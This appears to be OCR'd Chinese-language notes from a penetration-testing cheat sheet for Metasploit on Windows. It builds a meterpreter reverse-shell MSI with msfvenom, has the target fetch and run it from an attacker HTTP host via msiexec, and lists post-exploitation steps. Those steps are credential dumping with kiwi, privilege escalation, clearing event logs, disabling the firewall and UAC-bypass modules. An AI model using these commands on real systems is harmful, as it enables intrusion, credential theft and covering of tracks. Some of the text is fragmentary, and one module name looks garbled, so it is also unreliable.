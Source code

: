 ●  msf监听 handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.121 -P 4444

●  

●  **msiexec.exe**

●  Windows OS安装有一个Windows安装引擎·MSI包使用msiexe.exe来解释安装

●  msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.103 lport=6666 -f msi >1.msi

●  被控制端执行 msiexec /i http://192.168.0.103:8000/1.msi

●  msf ：handler -p windows/x64/meterpreter_reverse_tcp -H 192.168.0.103 -P 6666

●  

●  **Metasploit** **后渗透阶段**

●  查看目标机最近的操作

●  **run post/windows/gather/dumplinks**

●  

●  load kiwi

●  creds_all： #列举所有凭据

●  

●  进程迁移 migrate

●  提权 getsystem

●  清理痕迹 clearev

●  当前目录 getwd

●  端口转发 Portfwd

●  进程 ps  or getpid

●  

●  run post/windows/gather/enum_applications #获取安装软件信息

●  **run scraper #****获取常见信息 #保存在～/.msf4/logs/scripts/scraper/目录下**

●  run post/windows/gather/dumplinks #获取最近的文件操作

●  

●  netsh advfirewall set allprofiles state off 关闭防火墙

●  **use exploit/windows/local/ms18_8120_win32k_privesc**  **提权**

●  **UAC** **绕过**

●  **use exploit/windows/local/bypassuac**

●  **use exploit/windows/local/bypassuac_injection**

●  **use windows/local/bypassuac_vbs**

●  **use windows/local/ask**
